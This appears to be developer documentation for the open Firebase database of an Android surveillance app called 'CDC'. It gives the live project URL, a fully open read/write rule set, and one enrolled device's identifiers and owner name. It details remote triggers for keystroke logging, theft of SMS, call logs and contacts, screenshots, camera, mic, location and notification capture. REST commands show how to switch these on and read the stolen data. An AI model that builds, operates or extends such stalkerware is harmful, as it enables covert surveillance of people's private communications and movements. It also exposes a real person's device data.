

# Firebase RTDB Schema

**Project:** `android-cdc-5357e`
**Region URL:** `https://android-cdc-5357e-default-rtdb.asia-southeast1.firebasedatabase.app`
**REST API:** Append `.json` to any path, add `?key=<apiKey>` for access.
**API Key:** See `app/google-services.json`

---

## Top-level structure



```
cdc/
├── users/
│   └── <androidId>/
│       ├── appSettings/
│       └── userDeviceData/
├── flatUserDetails/
│   └── <androidId>/
└── shayari/
    └── <index>/          (1, 2, 3, ...)
```

---

## cdc/shayari

Simple indexed list of shayari strings displayed on the Home screen.

```json
{
  "1": "कुछ सोचता हूं तो तेरा ख्याल आ जाता है ...",
  "2": "...",
  "3": "..."
}
```

| Field | Type | Description |
|-------|------|-------------|
| `<index>` | `string` | Plain shayari text, `#` used as line separator |

---

## cdc/flatUserDetails/\<androidId\>

Flat index of enrolled devices. Used by the admin viewer device dropdown.

```json
{
  "deviceDetails": {
    "androidId": "ab91aaa972ff297f",
    "androidVersion": "14",
    "brand": "OnePlus",
    "bssid": "02:00:00:00:00:00",
    "buildId": "UP1A.231005.007",
    "device": "OP5D49L1",
    "hardware": "qcom",
    "macAddress": "02:00:00:00:00:00",
    "manufacturer": "OnePlus",
    "model": "CPH2619",
    "product": "CPH2619IN",
    "serial": "unknown",
    "ssid": "<unknown ssid>"
  },
  "fullName": "shweta yadav oneplus",
  "id": "ceef3c3c-0153-4da4-a090-fe98e3d008e3"
}
```

| Field | Type | Description |
|-------|------|-------------|
| `fullName` | `string` | Human-readable device label |
| `id` | `string` | UUID assigned at first launch |
| `deviceDetails.androidId` | `string` | Unique Android ID (same as the map key) |
| `deviceDetails.androidVersion` | `string` | Android OS version |
| `deviceDetails.brand` | `string` | Device brand |
| `deviceDetails.model` | `string` | Device model number |
| `deviceDetails.manufacturer` | `string` | Manufacturer name |
| `deviceDetails.ssid` | `string` | WiFi SSID at time of registration |
| `deviceDetails.bssid` | `string` | WiFi BSSID (often anonymized to `02:00:...`) |
| `deviceDetails.macAddress` | `string` | MAC address (often anonymized) |

---

## cdc/users/\<androidId\>/appSettings/appTriggerSettingsDataMap

Remote trigger switches. Each key is a `ClickActions` enum value. The app streams this path with a `ValueEventListener` and executes enabled triggers.

```json
{
  "START_SCREENSHOT_SERVICE": {
    "actionStatus": "IDLE",
    "clickActions": "START_SCREENSHOT_SERVICE",
    "deleteLocalData": false,
    "enabled": false,
    "interval": 0,
    "maxRepetitions": 1,
    "repeatable": false,
    "saveOnLocalFile": false,
    "uploadDataSnapshot": true
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `clickActions` | `string` | Enum name (matches the map key) |
| `enabled` | `boolean` | Master on/off for this trigger |
| `actionStatus` | `string` | `IDLE` / `PREPARE` / `START` / `STOP` / `RUNNING` |
| `repeatable` | `boolean` | Run in a loop |
| `maxRepetitions` | `number` | Max loop iterations (0 = unlimited) |
| `interval` | `number` | Delay between repetitions in ms |
| `saveOnLocalFile` | `boolean` | Write captured data to `Documents/CDC/` |
| `uploadDataSnapshot` | `boolean` | Push captured data to `userDeviceData/` |
| `deleteLocalData` | `boolean` | Delete local file after upload |

### All trigger keys

| Key | Description |
|-----|-------------|
| `REQUEST_ALL_PERMISSION` | Request all runtime permissions at once |
| `REQUEST_ACCESSIBILITY_PERMISSION` | Open accessibility settings |
| `REQUEST_FILE_ACCESS_PERMISSION` | Open all-files-access settings |
| `REQUEST_EXACT_ALARM_PERMISSION` | Request exact alarm permission |
| `TAKE_DEVICE_ADMIN_PERMISSIONS` | Request device admin |
| `PREVENT_BATTERY_OPTIMIZATIONS` | Request battery optimization exemption |
| `RESET_ALL_PERMISSION` | Revoke / reset permissions |
| `CAPTURE_KEY_STROKES` | Enable keystroke capture via AccessibilityService |
| `CAPTURE_NOTIFICATIONS` | Enable notification capture via AccessibilityService |
| `CAPTURE_ALL_SMS` | Snapshot all SMS via ContentResolver |
| `CAPTURE_ALL_CALL_LOGS` | Snapshot all call logs via ContentResolver |
| `CAPTURE_ALL_CONTACTS` | Snapshot all contacts via ContentResolver |
| `MONITOR_CALL_STATE` | Register PhoneStateListener for call events |
| `MONITOR_APP_USAGE_STATISTICS` | Track app open/close/duration |
| `GET_APP_USAGE_STATISTICS_REPORT` | Upload daily app usage report |
| `GET_DIRECTORY_STRUCTURE` | Snapshot `Documents/CDC/` directory tree |
| `START_SCREENSHOT_SERVICE` | Start MediaProjection screenshot loop |
| `START_SENSOR_SERVICE` | Start sensor logging foreground service |
| `MONITOR_PHONE_STATISTICS` | Register phone/screen statistics receiver |
| `RESET_EVERYTHING` | Full reset of app state |

---

## cdc/users/\<androidId\>/userDeviceData

Captured data from the device. Each sub-node uses Firebase `push()` keys as entry IDs.

### keystrokes

```json
{
  "-NxKQabcXYZ": {
    "appPackage": "com.google.android.googlequicksearchbox",
    "text": "typed text here",
    "timestamp": "2024-11-15T17:14:43.100713"
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `appPackage` | `string` | Package name of the app where typing occurred |
| `text` | `string` | Batched keystroke text (up to 30 chars or 15s window) |
| `timestamp` | `string` | ISO 8601 datetime |

### notifications

```json
{
  "-NxKQabcXYZ": {
    "packageName": "com.google.android.googlequicksearchbox",
    "timestamp": "2024-11-18 08:04:03",
    "extras": {
      "android_title": "Google",
      "android_text": "You have a notification",
      "android_subText": "user@gmail.com",
      "android_showWhen": "true",
      "android_reduced_images": "true",
      "android_appInfo": "ApplicationInfo{...}",
      "android_progress": "0",
      "android_progressMax": "0",
      "android_progressIndeterminate": "false",
      "android_showChronometer": "false"
    }
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `packageName` | `string` | Source app package |
| `timestamp` | `string` | Datetime string |
| `extras` | `map<string,string>` | Notification bundle extras (all cast to string) |

### sms

Full SMS row from Android `content://sms` ContentResolver. Key fields:

```json
{
  "-NxKQabcXYZ": {
    "_id": "4",
    "address": "VM-TRAYAH",
    "body": "SMS message text here",
    "date": "1730440951705",
    "date_sent": "1730440950000",
    "type": "1",
    "read": "0",
    "thread_id": "5",
    "sub_id": "1",
    "creator": "com.google.android.apps.messaging",
    "service_center": "+917012075009"
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `_id` | `string` | SMS database row ID (used for dedup in local file) |
| `address` | `string` | Sender/recipient phone number or shortcode |
| `body` | `string` | Message text |
| `date` | `string` | Received timestamp (epoch ms) |
| `type` | `string` | `1`=inbox, `2`=sent, `3`=draft |
| `read` | `string` | `0`=unread, `1`=read |
| `thread_id` | `string` | Conversation thread ID |

### callLogs

Full call log row from Android `CallLog.Calls` ContentResolver. Key fields:

```json
{
  "-NxKQabcXYZ": {
    "_id": "1",
    "number": "+919876543210",
    "type": "1",
    "date": "1730440951705",
    "duration": "120",
    "name": "Contact Name"
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `_id` | `string` | Call log row ID (used for dedup) |
| `number` | `string` | Phone number |
| `type` | `string` | `1`=incoming, `2`=outgoing, `3`=missed |
| `date` | `string` | Call timestamp (epoch ms) |
| `duration` | `string` | Duration in seconds |
| `name` | `string` | Contact name if available |

### contacts

Full contact row from Android `ContactsContract` ContentResolver. Key fields:

```json
{
  "-NxKQabcXYZ": {
    "_id": "1",
    "display_name": "Contact Name",
    "phone_number": "+919876543210"
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `_id` | `string` | Contact row ID (used for dedup) |
| `display_name` | `string` | Contact display name |
| `phone_number` | `string` | Phone number |

### appUsageReport

Daily app usage report keyed by date.

```json
{
  "-NxKQabcXYZ": {
    "date": "2024-11-15",
    "appUsageDataList": [
      {
        "packageName": "com.whatsapp",
        "openCount": 5,
        "totalDuration": 1800000,
        "sessions": [...]
      }
    ]
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `date` | `string` | Report date (YYYY-MM-DD) |
| `appUsageDataList` | `array` | List of per-app usage entries |
| `appUsageDataList[].packageName` | `string` | App package |
| `appUsageDataList[].openCount` | `number` | Times opened that day |
| `appUsageDataList[].totalDuration` | `number` | Total foreground time in ms |

### directory

Snapshot of the `Documents/CDC/` directory tree.

```json
{
  "-NxKQabcXYZ": {
    "timestamp": "2024-11-15T17:14:43",
    "structure": "..."
  }
}
```

### installedApps

Full list of applications installed on the remote device. Triggered by `CAPTURE_INSTALLED_APPS`.

```json
[
  {
    "name": "YouTube",
    "pkg": "com.google.android.youtube",
    "isSystem": true,
    "hasLauncher": true
  },
  {
    "name": "Instagram",
    "pkg": "com.instagram.android",
    "isSystem": false,
    "hasLauncher": true
  }
]
```

| Field | Type | Description |
|-------|------|-------------|
| `name` | `string` | Human-readable app label |
| `pkg` | `string` | Package ID |
| `isSystem` | `boolean` | True if pre-installed system app |
| `hasLauncher` | `boolean` | True if the app has a launcher icon (understandable app) |

### vpnTraffic

Real-time network metadata captured by the VPN service. Truncated to the last 50 entries.

```json
{
  "-NxKQabcXYZ": {
    "proto": "TCP",
    "src": "10.0.0.2",
    "dst": "142.250.190.46",
    "service": "HTTPS",
    "time": "14:35:02",
    "bytes": 1420,
    "appName": "Restricted App",
    "appPkg": ""
  }
}
```

| Field | Type | Description |
|-------|------|-------------|
| `proto` | `string` | IP Protocol (TCP, UDP, ICMP, ICMPv6) |
| `src` / `dst` | `string` | Source and Destination IP addresses |
| `service` | `string` | Identified service (HTTPS, HTTP, DNS, FCM, SSH) or port |
| `time` | `string` | Time of capture (HH:mm:ss) |
| `bytes` | `number` | Packet size in bytes |
| `appName` | `string` | Label (e.g., "Restricted App" or "BLOCKED DOMAIN") |
| `appPkg` | `string` | Blocked domain name if applicable |

### location

Real-time and historical location data.

```json
{
  "live": {
    "latitude": 28.6139,
    "longitude": 77.2090,
    "timestamp": 1730440951705
  },
  "history": {
    "-NxKQabcXYZ": {
      "lat": 28.6139,
      "lng": 77.2090,
      "time": 1730440951705
    }
  }
}
```

### camera & mic

Metadata for captured media (actual files stored in Firebase Storage).

```json
{
  "camera": {
    "photos": {
      "-NxKQabcXYZ": {
        "url": "https://...",
        "timestamp": "..."
      }
    }
  },
  "mic": {
    "-NxKQabcXYZ": {
      "url": "https://...",
      "timestamp": "..."
    }
  }
}
```

---

## cdc/users/\<androidId\>/appSettings/vpnConfig

Configuration for the VPN service, including restricted apps and websites.

```json
{
  "enabled": true,
  "restrictedApps": ["com.instagram.android", "com.google.android.youtube"],
  "restrictedWebsites": ["facebook.com", "tiktok.com"]
}
```

| Field | Type | Description |
|-------|------|-------------|
| `enabled` | `boolean` | Master switch for VPN interception |
| `restrictedApps` | `array` | Package IDs to route through the black-hole tunnel |
| `restrictedWebsites` | `array` | Domain keywords to match against DNS queries |

---

## Security Rules (current)

The database is currently **open** — all reads and writes are allowed without authentication:

```json
{
  "rules": {
    ".read": true,
    ".write": true
  }
}
```

> **Note:** Consider scoping rules per `androidId` using Firebase Auth UID once auth is added.

---

## REST API Quick Reference

```bash
# Read all enrolled devices (shallow)
GET /cdc/users.json?shallow=true&key=<apiKey>

# Read a device's trigger settings
GET /cdc/users/<androidId>/appSettings/appTriggerSettingsDataMap.json&key=<apiKey>

# Enable a trigger
PUT /cdc/users/<androidId>/appSettings/appTriggerSettingsDataMap/START_SCREENSHOT_SERVICE/enabled.json
Body: true

# Read keystrokes (shallow)
GET /cdc/users/<androidId>/userDeviceData/keystrokes.json?shallow=true&key=<apiKey>

# Read flatUserDetails
GET /cdc/flatUserDetails.json?shallow=true&key=<apiKey>
```
